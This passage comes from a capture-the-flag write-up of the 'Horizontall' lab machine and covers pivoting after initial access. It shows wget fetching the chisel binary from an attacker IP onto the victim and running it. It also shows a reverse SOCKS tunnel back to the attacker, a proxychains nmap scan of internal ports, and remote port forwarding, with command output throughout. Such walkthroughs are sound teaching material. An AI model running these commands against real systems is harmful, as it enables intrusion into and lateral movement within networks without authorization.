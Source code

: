 ### Chisel tunneling
Then, the last thing we can do is to nmap those unkown ports on `127.0.0.1` of the victim:
```bash
strapi@horizontall:/tmp$ wget http://10.10.16.5:8000/chisel
strapi@horizontall:/tmp$ chmod +x chisel
strapi@horizontall:/tmp$ ./chisel --help

  Usage: chisel [command] [--help]

  Version: 1.7.7 (go1.17.6)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
strapi@horizontall:/tmp$ ./chisel client 10.10.16.5:4444 R:socks
2022/06/01 16:13:01 client: Connecting to ws://10.10.16.5:4444
2022/06/01 16:13:02 client: Connected (Latency 100.266019ms)
```
On our machine:
```bash
❯ chisel server --port 4444 --reverse
# Before connection
2022/06/01 18:12:39 server: Reverse tunnelling enabled
2022/06/01 18:12:39 server: Fingerprint lRlwm2vZQZ3bzpEj6eIf3i43zqPcTVIsBVDJgw+Al6A=
2022/06/01 18:12:39 server: Listening on http://0.0.0.0:4444
2022/06/01 18:13:03 server: session#1: Client version (1.7.7) differs from server version (v1.7.7)
# After connection
2022/06/01 18:13:03 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Now that the chisel tunnel is set up, we can try to run an nmap through proxychains:
```bash
❯ proxychains nmap -p1337,8000 -A 127.0.0.1 -oN Enum/chiselledPorts
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-01 18:16 CEST
PORT     STATE SERVICE   VERSION
1337/tcp open  waste?
8000/tcp open  http-alt?
```
We see that port 8000 can be running an http server, let's check if we detect any webpage:
```bash
strapi@horizontall:/tmp$ ./chisel client 10.10.16.5:4444 R:8000:127.0.0.1:8000
2022/06/01 16:20:29 client: Connecting to ws://10.10.16.5:4444
2022/06/01 16:20:30 client: Connected (Latency 98.382626ms)
```
After configuring remote port forwarding to p8000, we can now access to the webpage: